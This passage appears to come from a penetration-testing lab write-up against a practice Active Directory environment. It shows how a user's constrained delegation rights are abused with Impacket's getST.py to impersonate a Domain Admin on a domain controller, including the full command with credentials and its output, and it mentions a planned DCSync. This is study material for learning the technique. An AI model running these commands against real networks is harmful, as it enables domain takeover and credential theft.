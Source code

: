This may be useful if I would want to RDP into machines later on. I also checked `JON.SNOW`‘s permissions. He possessed some very valuable rights. In particular, he had constrained delegation privileges to `WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL`, which is a Domain Controller.

<div style="text-align:center"><img src="img5.webp"></div>

I could leverage this to perform DCSync via Secretsdump, from Impacket.

## First Domain Compromise

### Exploiting Constrained Delegation

To leverage JON.SNOW‘s constrained delegation privileges, I used the `getST.py` utility from Impacket to request a Kerberos ticket for the `CIFS` service on the `WINTERFELL` DC while impersonating a Domain Admin account. I used Bloodhound to check who the DAs were in the `NORTH` domain, and `EDDARD.STARK` was one of them.

*Note: if you are confused as to why I was able to impersonate the DA account, I recommend learning more about constrained delegation. [This blog post](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/constrained-delegation) has a decent write-up on it without going into too much detail.*

```
# getST.py -spn "CIFS/WINTERFELL.NORTH.SEVENKINGDOMS.LOCAL" -impersonate "EDDARD.STARK" north.sevenkingdoms.local/jon.snow:iknownothing -dc-ip 10.2.10.11

Impacket v0.11.0 - Copyright 2023 Fortra
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating EDDARD.STARK
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in EDDARD.STARK.ccache
```
